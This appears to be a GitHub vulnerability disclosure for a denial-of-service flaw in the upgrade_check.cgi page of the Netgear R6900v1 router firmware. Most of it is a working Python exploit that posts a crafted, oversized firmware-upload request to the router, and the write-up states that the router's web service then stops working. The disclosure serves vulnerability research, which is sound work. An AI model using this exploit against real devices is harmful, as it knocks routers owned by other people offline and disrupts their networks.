






# Netgear R6900v1 router Denial of service vulnerability


## Basic information

Supplier: Netgear
Product: R6900v1
Firmware version: R6900-V1.0.1.26_1.0.20


Normal access to the router web side:




## Leak point

A vulnerability exists on the upgrade_check.cgi page




If the upgrade_check.cgi page is accessed normally, the system automatically switches to the normal web terminal




## EXP

Write EXP to attack

```python
import requests

data1 = "*#$^"
data1 += "\x00\xFF\xFF\xFF"
data1 = data1.ljust(0xFFFF, 'A')


payload = ''
payload += 'POST /upgrade_check.cgi HTTP/1.1\r\n'
payload += 'Host: 192.168.1.1\r\n'
payload += 'Content-Disposition: AAAA\r\n'
payload += 'Content-Length: {}\r\n'.format(len(data1) + 1)
payload += 'Content-Type: application/octet-stream\r\n'
payload += 'name="mtenFWUpload"\r\n'
payload += '\r\n'
payload += data1

print(payload)

headers = {'Content-Length': str(len(payload))}

url = 'http://192.168.1.1:80/upgrade_check.cgi'
response = requests.post(url, headers=headers, data=payload)

print(response.text)
```

To carry out an attack:




## Vulnerability result

The web side of the router fails to perform services on the gateway again, and the attack succeeds.






